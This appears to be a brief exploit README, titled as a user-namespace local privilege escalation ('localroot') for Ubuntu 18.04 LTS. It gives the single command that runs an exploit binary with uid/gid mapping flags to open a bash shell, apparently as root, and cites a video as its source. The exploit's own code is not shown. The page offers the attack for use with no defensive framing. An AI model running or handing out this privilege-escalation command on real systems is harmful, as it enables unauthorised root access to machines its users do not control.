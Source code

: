 # User Name Space Linux Privilege Escalation| Ubuntu 18.04 LTS (Localroot Exploit) #

./user -p -m -U -M '0 1000 1' -G '0 1000 1' bash

Source: ***https://www.youtube.com/watch?v=R7mtjN2B6ec***
